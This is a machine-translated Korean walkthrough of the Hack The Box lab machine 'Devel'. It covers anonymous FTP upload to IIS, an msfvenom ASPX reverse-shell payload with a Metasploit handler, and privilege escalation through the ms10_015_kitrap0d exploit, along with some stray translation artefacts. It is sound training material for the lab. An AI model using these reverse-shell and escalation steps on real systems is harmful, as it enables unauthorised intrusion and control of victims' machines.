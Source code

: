 ```yaml
---
title: "Devel  Hack The Box 워크스루"
description: ""
coverImage: "/assets/img/2024-06-19-DevelHackTheBoxWalk-through_0.png"
date: 2024-06-19 01:18
ogImage:
  url: /assets/img/2024-06-19-DevelHackTheBoxWalk-through_0.png
tag: Tech
originalTitle: "Devel — Hack The Box Walk-through"
link: "https://medium.com/@jaylinscorner/devel-hack-the-box-walkthrough-6a04f5f0b8a3"
isUpdated: true
---
```


안녕하세요!

오늘은 과거에 완료한 Hack The Box 머신인 Devel을 살펴보겠습니다. 이 머신은 Windows 머신에서의 지역 권한 상승을 강조합니다.

이 머신은 여전히 Hack The Box에서 이용 가능한 쉬운 난이도의 은퇴된 머신입니다. 이 글을 쓰는 시점에서는 불행히도 이 머신에 접근하려면 VIP 멤버십이 필요합니다. 제가 이 머신을 루팅했을 때는 무료였지만, 곧 다시 무료가 될 수도 있습니다.

더 이상 말 늑대, 시작해 봅시다!

<div class="content-ad"></div>

마크다운 형식으로 테이블 태그를 변경해주세요.

<div class="content-ad"></div>

우리가 포트 스캔 결과 익명 FTP 로그인이 허용되어 있음을 알려주었기 때문에 익명으로 FTP에 로그인을 시도해 볼 수 있습니다.

![이미지](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_2.png)

우리는 성공적으로 포트 21인 FTP에 익명으로 로그인했습니다. 현재 디렉토리에 있는 파일 목록을 볼 수 있습니다.

이 서버가 Microsoft IIS/7.5를 실행 중이기 때문에, ASP 및 ASPX 확장자를 가진 코드 실행을 허용하는 이 버전의 IIS에서 익명으로 파일을 업로드하는 시도를 해볼 수 있습니다.

<div class="content-ad"></div>

<img src="/assets/img/2024-06-19-DevelHackTheBoxWalk-through_3.png" />

랜덤 ASPX 파일을 업로드한 후 익명 사용자의 업로드 기능을 이용할 수 있다는 점을 알 수 있습니다.

ASPX 파일을 업로드할 수 있으므로 ASPX 역술을 생성해볼 수 있습니다.

터미널에서 Metasploit Payload Generator를 엽니다.

<div class="content-ad"></div>

```js
msfvenom;
```

그런 다음, ASPX 역술 쉘을 만들려면 다음을 사용합니다:

```js
msfvenom -f aspx -p windows/meterpreter/reverse_tcp LHOST=(내_IP) LPORT=4444 -o moe.aspx
```

msfvenom을 사용하여 역술 쉘을 얻을 수 있는 올바른 페이로드를 생성하려고 합니다. 이 경우 Windows reverse_tcp 페이로드를 사용하고 있으며, 이는 Windows 상자이기 때문입니다. 선택한 옵션은 Meterpreter입니다.

<div class="content-ad"></div>

다음은 플래그입니다:

- -f: 출력 형식
- -p: 사용할 페이로드 (우리 시나리오에서는 Windows Reverse TCP)
- LHOST: 우리 자신입니다; 이 페이로드의 역쉘 수신 측에 있을 것입니다. 우리가 수신 대기 중인 IP를 입력하는 곳입니다 (eth0 또는 tun0)
- LPORT: 우리가 수신 대기할 포트, 보통 기본값으로 4444를 유지합니다
- -o: 서버에 업로드된 페이로드를 포함하는 출력 파일

이 파일을 업로드 시도하면 성공합니다. 이제 업로드한 파일과 상호 작용하기 위해 리스너를 구성합니다.

터미널에서 msfconsole을 실행하여 Metasploit으로 리스너를 구성합니다:

<div class="content-ad"></div>

msfconsole

그런 다음 사용할 exploit으로 이동하겠습니다.

use exploit/multi/handler

그런 다음 옵션을 우리가 원하는 대로 구성합니다.

<div class="content-ad"></div>

해당 표식을 마크다운 형식으로 변경하시면 됩니다.

<div class="content-ad"></div>

```js
set payload windows/meterpreter/reverse_tcp
```

참고: 이번에는 세션 ID를 실행하기 전에 기억하는 것이 중요합니다. 나중에 사용할 것입니다.

이제 실행해 봅시다!! :

```js
run;
```

<div class="content-ad"></div>

우리는 브라우저에서 ASPX 역쉘 파일을 다음과 같이 로드합니다:

```js
10.10.10.5/{File_Name}
```

이제 터미널에서 호스트 OS 안에 있다는 것을 확인할 수 있습니다

<img src="/assets/img/2024-06-19-DevelHackTheBoxWalk-through_4.png" />

<div class="content-ad"></div>

이제 파일 시스템으로 이동해 보아야 합니다. 가능하면 C 드라이브로 이동하겠습니다.

그래서 다음과 같이 세션을 백그라운드로 설정합니다:

```js
background;
```

그런 다음, 획득한 시스템에서 로컬 취약점을 찾기 위해 Metasploit을 다시 엽니다. msfconsole을 열고 exploit/multi/handler로 이동한 다음 post/multi/recon/local_exploit_suggester로 넘어갑니다.

<div class="content-ad"></div>

```js
use post/multi/recon/local_exploit_suggester
```

![Image 1](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_5.png)

이전에 메모한 세션 ID를 여기에 입력하겠습니다:

![Image 2](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_6.png)

<div class="content-ad"></div>

우리의 세션 ID를 구성한 후에 이를 실행할 거에요. 이 모듈은 Windows에서 로컬 악용을 찾을 거에요.

실행이 완료되면 Metasploit이 사용을 제안하는 것을 볼 수 있을 거에요:

```js
exploit / windows / local / ms10_015_kitrap0d;
```

이 모듈은 Windows Machines에서 시스템 권한으로 새로운 세션을 만들 것이에요. 이 모듈은 CVE-2010–0232와 관련된 악용인데요, 이는 Microsoft Windows 커널 예외 처리기 취약점에 관련된 것이에요.

<div class="content-ad"></div>

우리는 옵션을 조정합니다...

맞죠!

```js
show options
```

들을 호스트를 설정해요. 그리고 우리의 리스닝 포트를 4445로 설정할 거에요; 다른 포트를 사용하여 exploit을 수행할 거예요. 마지막으로 세션을 리스너와 동일하게 만들 거에요.

<div class="content-ad"></div>

그럼 이제 실행해 봅시다!

![이미지](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_7.png)

우리의 Exploit이 완료된 것 같은데 성공했을까요?

Meterpreter에서 명령 셸을 사용합니다.

<div class="content-ad"></div>

접근 성공! 이제 cd ..를 사용하여 C 드라이브로 이동합니다.

![이미지](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_8.png)

C 드라이브의 내용을 분석하고 사용자 디렉토리가 흥미로울 수 있다는 것을 알 수 있었습니다. 해당 디렉터리로 이동하면 관리자 및 바비스와 같이 발견할 가치가 있는 2개의 사용자 디렉토리가 보입니다.

![이미지](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_9.png)

<div class="content-ad"></div>

해당 디렉터리로 이동하고 두 가지 모두 사용자 및 루트 권한을 얻어야 이 상자를 루팅할 수 있어요!

![이미지 1](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_10.png)

![이미지 2](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_11.png)

이것은 제 첫 번째 게시된 Hack The Box 워크스루입니다. 이 워크스루를 작성하는 것은 나에게 유용한 경험을 얻게 도와주고 동시에 다른 사람들이 학습하는 데 도움이 되기도 해요!

<div class="content-ad"></div>

도움이 되었다면 알려주세요. 또한 Linkedin에서 연락해도 괜찮습니다:

www.linkedin.com/in/jaylin-nelson

참고 문헌:
